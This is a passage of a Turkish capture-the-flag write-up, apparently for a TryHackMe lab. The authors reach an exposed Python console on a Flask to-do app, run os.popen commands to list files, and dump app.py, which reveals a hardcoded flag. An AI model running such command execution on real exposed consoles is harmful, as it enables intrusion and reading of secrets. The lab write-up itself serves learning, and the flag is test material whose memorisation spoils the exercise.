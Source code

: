 - Burada bir kabuğa ulaşıyoruz. Python kodu çalıştırabilir miyiz diye baktık:

  `import os; print(os.popen("ls -l").read())`

- app.py dosyasının içini okuduk:

  ```bash
  [console ready]
  >>> import os; print(os.popen("ls -l").read())
  total 24
  -rw-r--r--    1 root     root           249 Sep 15  2022 Dockerfile
  -rw-r--r--    1 root     root          1411 Feb  3  2023 app.py
  -rw-r--r--    1 root     root           137 Sep 15  2022 requirements.txt
  drwxr-xr-x    2 root     root          4096 Sep 15  2022 templates
  -rw-r--r--    1 root     root          8192 Sep 15  2022 todo.db

  >>> import os; print(os.popen("cat app.py").read())
  import os
  from flask import Flask, render_template, request, redirect, url_for
  from flask_sqlalchemy import SQLAlchemy

  secret_flag = "THM{Just_a_tiny_misconfiguration}"

  PROJECT_ROOT = os.path.dirname(os.path.realpath(__file__))
  DATABASE = os.path.join(PROJECT_ROOT, 'todo.db')

  app = Flask(__name__)
  app.config['SQLALCHEMY_DATABASE_URI'] = "sqlite:////" + DATABASE
  db = SQLAlchemy(app)


  class Todo(db.Model):
      id = db.Column(db.Integer, primary_key=True)
      title = db.Column(db.String(80))
      complete = db.Column(db.Boolean)


  @app.route("/")
  def index():
      todo_list = Todo.query.all()
      return render_template("index.html", todo_list=todo_list)


  @app.route("/add", methods=["POST"])
  def add():
      title = request.form.get("title")
      new_todo = Todo(title=title, complete=False)
      db.session.add(new_todo)
      db.session.commit()
      return redirect(url_for("index"))


  @app.route("/complete/<string:todo_id>")
  def complete(todo_id):
      todo = Todo.query.filter_by(id=todo_id).first()
      todo.complete = not todo.complete
      db.session.commit()
      return redirect(url_for("index"))


  @app.route("/delete/<string:todo_id>")
  def delete(todo_id):
      todo = Todo.query.filter_by(id=todo_id).first()
      db.session.delete(todo)
      db.session.commit()
  ```